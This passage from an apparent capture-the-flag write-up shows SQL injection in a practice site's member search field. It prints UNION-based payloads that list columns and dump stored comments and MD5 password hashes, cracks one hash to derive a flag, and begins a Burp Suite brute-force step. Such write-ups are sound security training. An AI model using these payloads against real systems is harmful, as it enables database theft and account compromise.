 #### sqli in input search member
Same like sqli in search image,  but this time we have error when i injection invalid payload like ` 1'' ` 
![error-sql](/assets/error-sql.png "error-sql")
I Do same steps : 
Database -> Member_Sql_Injection
Table -> users
Colums from table users : 
```bash
ID: -1 UNION SELECT 1, GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema = database() AND table_name = 0x7573657273-- 
First name: 1
Surname : user_id,first_name,last_name,town,country,planet,Commentaire,countersign
```
let's show commentaires and countersign ; 
payload : `1 or 1=1 UNION SELECT Commentaire, countersign FROM users`
```bash
ID: 1 or 1=1 UNION SELECT Commentaire, countersign FROM users 
First name: Aamu on iltaa viisaampi.
Surname : 60e9032c586fb422e2c16dee6286cf10
ID: 1 or 1=1 UNION SELECT Commentaire, countersign FROM users 
First name: Dublin is a city of stories and secrets.
Surname : e083b24a01c483437bcf4a9eea7c1b4d
ID: 1 or 1=1 UNION SELECT Commentaire, countersign FROM users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```
decrypt md5 hash : 5ff9d0165b4f92b14994e5c685cdce28 -> FortyTwo 
so flag is sha256 'FortyTwo' -> 9995cae900a927ab1500d317dfcc52c0ad8a521bea878a8e9fa381b41459b646

### 5. Brute Force Attack 
just simple wordlist in username and password and get flag :/
using burpsuite intruder pitchfork mode: 
![bruteforce1](/assets/bruteforce1.png "bruteforce1")
and sort by lengh of response : 
